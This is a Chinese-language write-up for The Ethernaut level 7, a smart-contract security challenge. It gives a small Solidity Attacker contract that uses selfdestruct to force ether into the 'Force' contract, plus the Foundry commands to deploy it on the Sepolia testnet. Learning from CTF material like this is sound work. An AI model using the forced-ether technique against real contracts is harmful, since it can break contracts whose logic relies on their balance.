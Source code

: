 # Level 7


[The Ethernaut level 7](https://ethernaut.openzeppelin.com/level/7)

这一关的要求是增加 `Forece` 合约的 ether 余额

`Force` 合约没有任何函数，要想向该合约发送 ether，普通转账是不行的。需要使用一些特殊的方法。以下是几种可能的方式：
1. 自毁方法（`selfdestruct`）：这是最常见的强制发送以太币到一个没有接收函数的合约的方法。
2. 预部署合约：使用 `CREATE2` 操作码预先计算出合约的地址，并在合约部署之前向该地址发送 ether。

由于合约不是自己部署，因此采用第一种方式。

示例代码：
```
contract Attacker {
    constructor() {}

    function attack(address receiver) public payable {
        selfdestruct(payable(receiver));
    }

    receive() external payable {}
}
```
完整代码见：[Attacker](../../ethernaut/script/level07/Attacker.s.sol)

使用Foundry：

调用脚本部署 `Attacker` 合约并且发动 `attack`：
```
forge script script/level07/Attacker.s.sol:CallContractScript --rpc-url sepolia --broadcast

```

查询 ether 余额
```
cast balance 0xd2E4Ba00684F3d61D585ca344ec566e03FA06F47 --rpc-url sepolia
```

链上记录：
- [level(`Force`) 实例](https://sepolia.etherscan.io/address/0xd2E4Ba00684F3d61D585ca344ec566e03FA06F47)
- [自毁并发送 ether 交易](https://sepolia.etherscan.io/tx/0xbc33047553c932bba41adb3e45c83940e7a5c5df4343a08121851c3bee357a7c)
